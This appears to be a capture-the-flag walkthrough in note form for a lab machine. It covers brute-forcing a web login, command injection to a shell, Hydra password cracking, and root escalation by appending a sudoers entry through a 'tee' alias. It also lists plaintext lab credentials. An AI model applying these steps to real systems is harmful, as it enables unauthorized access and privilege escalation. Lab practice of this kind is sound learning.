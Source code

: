 #fired up burp suite and got the POST request

#brute force login

#username and pass found:
	admin:happy

#went to command.php

#captured request on burp

#changed the request and we got command injection

#got a shell back

#enumerated further but got nothing

#back to burp. used the path found of old passwords and used "cat" on it

#copied the pass

#copied the users found:
	jim
	charles
	sam
	root

#brute force using hydra

#found jim's pass:
	jim:jibril04

#by enumerating found a mail from charles to jim:
	Hi Jim,

	I'm heading off on holidays at the end of today, so the boss asked me to give you my password just in case anything goes wrong.

	Password is:  ^xHhA&hvim0y

	See ya,
	Charles

#command sudo -l:
	(root) NOPASSWD: /usr/bin/teehee

#teehee is an alias for tee

#used this command to give charles full access:
	echo “charles  ALL=(ALL:ALL) ALL” | sudo teehee -a /etc/sudoers

#got root!